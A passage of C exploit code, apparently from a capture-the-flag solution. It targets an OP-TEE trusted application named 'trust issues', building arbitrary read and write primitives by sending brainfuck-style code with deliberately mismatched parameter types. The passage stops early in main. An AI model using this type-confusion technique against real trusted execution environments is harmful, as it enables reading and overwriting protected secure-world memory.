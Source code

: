```c
    TEEC_Operation op;

    char *code = (char *)calloc(size*3+1, sizeof(char));
    memset(code, ',', size);
    memset(code+size, '<', size);
    memset(code+size*2, '.', size);

    memset(&op, 0, sizeof(op));
    op.paramTypes = TEEC_PARAM_TYPES(TEEC_MEMREF_TEMP_INPUT, TEEC_VALUE_INOUT,
                     TEEC_MEMREF_TEMP_OUTPUT, TEEC_NONE);
    // param[0]: code
    // param[1]: input
    // param[2]: output
    op.params[0].tmpref.buffer = code;
    op.params[0].tmpref.size = size*3;
    op.params[1].value.a = tgt;
    op.params[1].value.b = size+1;
    op.params[2].tmpref.buffer = buf;
    op.params[2].tmpref.size = size+1;

    run_code(p_sess, &op);

    free(code);
}

void abwrite(TEEC_Session *p_sess, uint32_t tgt, void *src, size_t size) {
    TEEC_Operation op;

    char *code = (char *)calloc(size*3+1, sizeof(char));
    memset(code, ',', size);
    memset(code+size, '<', size);
    memset(code+size*2, '.', size);

    memset(&op, 0, sizeof(op));
    op.paramTypes = TEEC_PARAM_TYPES(TEEC_MEMREF_TEMP_INPUT, TEEC_MEMREF_TEMP_INOUT,
                     TEEC_VALUE_INOUT, TEEC_NONE);
    // param[0]: code
    // param[1]: input
    // param[2]: output
    op.params[0].tmpref.buffer = code;
    op.params[0].tmpref.size = size*3;
    op.params[1].tmpref.buffer = src;
    op.params[1].tmpref.size = size+1;
    op.params[2].value.a = tgt;
    op.params[2].value.b = (uint32_t)(size+1);

    run_code(p_sess, &op);

    free(code);
}

int main(int argc, char *argv[]) {
    TEEC_Result res;
    TEEC_Context ctx;
    TEEC_Session sess;
    TEEC_UUID uuid = TA_TRUST_ISSUES_UUID;
    uint32_t err_origin;

    /* Initialize a context connecting us to the TEE */
    res = TEEC_InitializeContext(NULL, &ctx);
    if (res != TEEC_SUCCESS)
        errx(1, "TEEC_InitializeContext failed with code 0x%x", res);

```
